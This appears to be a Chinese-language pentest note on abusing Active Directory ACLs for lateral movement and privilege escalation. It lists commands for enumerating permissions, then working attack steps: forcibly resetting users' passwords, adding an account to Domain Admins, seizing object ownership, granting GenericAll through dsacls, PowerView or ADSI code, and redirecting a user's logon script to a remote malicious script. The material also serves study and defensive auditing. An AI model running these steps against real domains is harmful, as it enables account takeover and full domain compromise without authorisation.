利用acl进行横向
目录
访问控制列表 (ACL) 是访问控制条目 (ACE) 的列表。ACL 中的每个 ACE 都标识一个受托者，并为该受托者指定允许、拒绝或审计的访问权限。
查看acl
1.
需要下载rsat包（Remote Server Administration Tools ）
import-module ActiveDirectory
(Get-Acl -Path "AD:CN=bob,CN=Users,DC=cia,DC=gov").access

在IdentityReference字段可以看到Apache用户对bob有GenericAll权限
2.
powerview
查看谁对bob有genericall权限
Get-ObjectAcl -samAccountName bob -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
查看bob对哪个用户有权限
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "bob"}
若poweiview没有IdentityReference属性
Get-ObjectAcl -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "SID-xxx-x-x-x-xx"}
查看任何用户对某用户组的权限
在distinguishedname中找到某用户组的对ldap路径
Get-NetGroup "domain admins" -FullData
进行acl查询
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
缺点：有可能看不到这个权限是谁拥有的(IdentityReference字段看不到)。但可以根据SecurityIdentifier指向的sid知道是谁作用于bob

3.
dsacls "CN=bob,CN=Users,DC=cia,DC=gov"

比较明了
4.
https://github.com/tevora-threat/SharpView
sharpview.exe Invoke-ACLScanner -ResolveGUIDs
5.
Import-Module ActiveDirectory
cd AD:
$Acl = Get-Acl 'CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=pentest,DC=com'
$Acl.Access.Count
$Acl.Access | where IdentityReference -match 'Domain Users'. //定义查询谁拥有此权限？

GUID转换脚本
powershell
需要下载rsat包
$ObjectTypeGUID = @{}
$GetADObjectParameter=@{
SearchBase=(Get-ADRootDSE).SchemaNamingContext
LDAPFilter='(SchemaIDGUID=*)'
Properties=@("Name", "SchemaIDGUID")
}
$SchGUID=Get-ADObject @GetADObjectParameter
Foreach ($SchemaItem in $SchGUID){
$ObjectTypeGUID.Add([GUID]$SchemaItem.SchemaIDGUID,$SchemaItem.Name)
}
$ADObjExtPar=@{
SearchBase="CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)"
LDAPFilter='(ObjectClass=ControlAccessRight)'
Properties=@("Name", "RightsGUID")
}
$SchExtGUID=Get-ADObject @ADObjExtPar
ForEach($SchExtItem in $SchExtGUID){
$ObjectTypeGUID.Add([GUID]$SchExtItem.RightsGUID,$SchExtItem.Name)
}
$ObjectTypeGUID | Format-Table -AutoSize
$ObjectTypeGUID[[GUID]'bf967961-0de6-11d0-a285-00aa003049e2']
作用情况：

表示CIA\Exchange Trusted Subsystem对bob用户的GUID为bf967a06-0de6-11d0-a285-00aa003049e2（objecttype）的属性有WriteProperty权限。但是这个guid指向的是哪一个属性呢？就可以用这个脚本转化出来。
powerview的SecurityIdentifier也可以解出来看谁有这个权限。
利用
不安全的配置导致权限提升
ForceChangePassword：强制改变当下的密码
AddMembers：可以对目标组添加用户（包括自己的账户）
GenericAll：完全控制对象，包括更改密码、注册SPN、添加AD对象到目标组里面
GenericWrite:更改目标写入参数，导致下次用户登录脚本就要执行
WriteOwne：更新目标对象的所有者，可以让自己成为所有者
WriteDACL：更新对面的DACL，将ACL写入对面实体，直接授予我们的账户对对象的完全控制权
AllExtendedRights：能够对目标对象执行与扩展 AD 权限相关的任何操作。例如，这包括强制更改用户密码的能力。
GenericAll
完全控制权限
genericall on user
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
看到bob对delegate用户有genericall权限

直接修改密码即可
net user delegate password /domain
genericall on group
查看某个组的ldap字符串
Get-NetGroup "domain admins" -FullData

查看该用户组的dacl
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}

如果对一个组有genericall权限，就可以把自己加进去，对于管理员组来说，加进去就成了管理员。
net group "domain admins" spotless /add /domain
也有一些其它的添加用户命令，但都需要一些脚本依赖
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless
# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
writeproperty
可以写其它用户的属性。
如果可以对某个组写全部属性

那么就可以把该用户直接加入此用户组
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
or
net group "domain admins" spotless /add /domain
Self-Membership
"Self-Membership是一种权限，它允许用户自己管理自己的成员身份。具体来说，Self-Membership权限允许用户添加或删除自己作为某个组织、团队或项目的成员。这意味着用户可以自主决定加入或离开特定的组织、团队或项目，而无需管理员或其他成员的干预。Self-Membership权限通常用于提供更大的自由度和灵活性，使用户能够自主管理自己的成员身份。"
Self-Membership
如果对某个组有这个权限，且activedirectoryRights为self或者有writeproperty，也可以把自己拉进该用户组


Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
or
net group "domain admins" spotless /add /domain
ForceChangePassword
如果我们对某用户有该权限，就可以直接改他的密码

powersploit
Set-DomainUserPassword -Identity delegate -Verbosed
或者
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
上面指令不能一步到位，因为中间会有问询提示输入密码。用下面这个方法就可以直接改了
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
writeowner
如果当前用户对某个组有该权限，我们可以将该组的object's owner改为自己，从而控制该组，比如可以把其它用户添加进该组。
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}

powersploit
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
sid获取
wmic group where name="Domain Admins" get name,sid,domain
GenericWrite
"GenericWrite" 权限是指对文件或文件夹进行写入操作的权限。具体来说，它允许用户对文件或文件夹进行以下操作：
- 创建文件或文件夹。
- 修改文件内容或文件夹属性。
- 删除文件或文件夹。
- 重命名文件或文件夹。
如果对某用户有genericwrite权限，且objecttype为script-path。那么就可以修改该用户的login script，当该用户下次登录的时候，我们写入其login script的恶意脚本就会被触发

Module:ActiveDirectory
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
writeDACL
如果a对b有writedacl权限，那么可以a可以向b的acl写入genericall权限来实现完全控制，从而接管b用户。
如果a对某用户组有writeacl权限，也可以使a对该组有genericall权限并把a用户加入到该组
可用dsacls或powersploit
让Brandi.Khan获得对Carol.Dean的genericall权限
dsacls "\\10.0.1.100\CN=Carol.Dean,CN=Users,DC=pwn,DC=local" /I:T /G "pwn\Brandi.Khan:GA"
使test1获得对bob的genericall权限
Add-DomainObjectAcl -TargetIdentity 'bob' -PrincipalIdentity test1 -Rights All
Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" //可被修改acl的对象的ldap路径
$IdentityReference = (New-Object System.Security.Principal.NTAccount("Username")).Translate([System.Security.Principal.SecurityIdentifier])//定义谁会获得这个组的权限
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow" //定义授予权限为genericall
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()